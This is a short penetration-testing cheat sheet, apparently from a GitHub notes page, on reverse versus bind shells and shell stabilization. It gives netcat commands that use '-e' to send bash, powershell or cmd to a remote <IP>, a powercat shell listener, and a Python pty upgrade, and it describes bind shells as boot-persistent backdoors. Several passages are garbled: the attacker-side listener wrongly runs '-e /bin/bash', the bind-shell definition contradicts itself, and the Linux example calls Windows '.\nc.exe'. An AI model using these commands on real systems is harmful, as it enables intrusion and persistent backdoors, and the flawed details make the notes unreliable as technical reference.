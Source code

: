 
## Reverse Shell VS Bind Shell

What use and when? Typically we use the bind shell in two scenarios. The first is the one in which we already have the access to the machine and we want a persistent access or a backdoor on it. In order to do that we could set a service that binds that port at every boot of the machine. The second scenario is the one in which we are not in the same internal network of the machine and we can't reach our machine from the victim because, for example, we are reaching the victim through web access and to obtain a reverse shell we likely have to enable port forwarding on the router of our networking. In this scenario a bind shell could let the attacker connect to the victim knowing only the external IP of the victim.

### Reverse Shell

Receiving a command line access to a remote machine, where the victim establish the connection to the attacker machine that is the listener.

Once the reverse shell payload is executed on the victim machine, on the attacker the listener will be

```shell
nc -lvnp 4444 -e /bin/bash
```

### Bind Shell

Receiving a command line access to a remote machine, where the victim establish the connection to the victim machine that is the listener.

Once the foothold is gained on the victim machine, It can be set up a listener that opens a shell at every connection. After the following connection is made, we can obtain a shell access on the victim machine. This command is run from the attacker.

```shell
nc <REMOTE-IP> 4444
```

## Shell Stabilization

Once we gain a shell, many times we don't have a fully interactive environment. We can use many tools to stabilize it.

### Netcat

From the kali machine we run the listener

```shell
nc -lvp <PORT>
```

From the Windows machine

```powershell
.\nc.exe <IP> <PORT> -e powershell
```

If we have a Linux machine

```powershell
.\nc.exe <IP> <PORT> -e bash
```

### Python3

Checking if the terminal is tty, otherwise spawn a tty with python3

```shell
tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Powercat

We can use Powercat to serve the shell on the listener

```shell
nc -lvp <PORT>
```

```powershell
powercat -l -p <PORT> -e cmd
```
